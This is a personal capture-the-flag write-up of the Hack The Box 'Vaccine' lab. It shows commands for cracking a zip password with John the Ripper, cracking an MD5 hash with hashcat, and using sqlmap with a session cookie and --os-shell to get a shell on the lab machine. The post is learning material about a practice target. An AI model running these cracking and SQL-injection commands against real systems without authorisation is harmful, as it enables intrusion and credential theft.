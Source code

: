 ```yaml
---
layout: post
title: 00 - Vaccine
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Vaccine]
tags: [ftp,SQL,SUID]
---
```

**Title:** 00 - Vaccine
**Tags:** [[Very Easy]]
**Topics:** #FTP #SQL #SUID

---
# 00 - Vaccine
# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 11/06/2022 | 12/06/2022 |

# Process
1. Login as `anonymous` on ftp service >  `get` the .zip and `unzip`.
2. Use John The Reapper to unzip the file.

# John The Reapper
There is a script call it `zip2john` that creates a hash out of a zip file. After, with this hash, we run a wordlist to brute force the password.

> Get the hash
```bash
$ zip2john backup.zip > hash.txt
```

> Brute Force the hash
```bash
$ john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Show the password
```bash
$ john --show hash.txt
```

```ad-caution
Must `gunzip rockyou.txt.gz`
```

# MD5 Password
Inside index.php there was admin's password encrypted using MD5. 
To crack MD5 password execute this command:
```bash
$ sudo hashcat -m 0 pass.md5 /usr/share/wordlists/rockyou.txt
```


# SQL Injection
In the website there is a search bar that we can explote with SQL injection.
We can use sqlmap but before executing any command, we will need to grab the cookie to authenticat admin user. 
[//]: Install cooki-editor extension

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e" --os-shell
```

User flag is in `/var/lib/postgresql/`

```ad-note
I found users flag but I lost in the proccess of creating a interactive shell.
I only need root flag.
```
